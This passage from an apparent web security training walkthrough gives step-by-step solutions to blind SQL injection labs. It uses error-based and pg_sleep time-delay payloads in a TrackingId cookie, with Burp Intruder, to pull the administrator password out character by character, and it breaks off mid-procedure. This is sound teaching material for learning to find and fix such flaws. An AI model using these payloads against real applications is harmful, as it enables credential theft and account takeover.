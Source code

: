 15.  Place payload position markers around the final `a` character in the cookie value. To do this, select just the `a`, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers): `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
16.  To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.
17.  Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
18.  Review the attack results to find the value of the character at the first position. The application returns an HTTP 500 status code when the error occurs, and an HTTP 200 status code normally. The "Status" column in the Intruder results shows the HTTP status code, so you can easily find the row with 500 in this column. The payload showing for that row is the value of the character at the first position.
19.  Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value: `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
20.  Launch the modified attack, review the results, and note the character at the second offset.
21.  Continue this process testing offset 3, 4, and so on, until you have the whole password.
22.  In your browser, click "My account" to open the login page. Use the password to log in as the `administrator` user.

### Lab: Blind SQL injection with time delays and information retrieval

1.  Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
2.  Modify the `TrackingId` cookie, changing it to: `TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`. Verify that the application takes 10 seconds to respond.
3.  Now change it to: `TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`. Verify that the application responds immediately with no time delay. This demonstrates how you can test a single boolean condition and infer the result.
4.  Now change it to: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`. Verify that the condition is true, confirming that there is a user called `administrator`.
5.  The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`. This condition should be true, confirming that the password is greater than 1 character in length.
6.  Send a series of follow-up values to test different password lengths. Send: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`. Then send: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`. And so on. You can do this manually using [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater), since the length is likely to be short. When the condition stops being true (i.e. when the application responds immediately without a time delay), you have determined the length of the password, which is in fact 20 characters long.
7.  After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder). Send the request you are working on to Burp Intruder, using the context menu.
8.  In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
9.  In the Positions tab, change the value of the cookie to: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`. This uses the `SUBSTRING()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.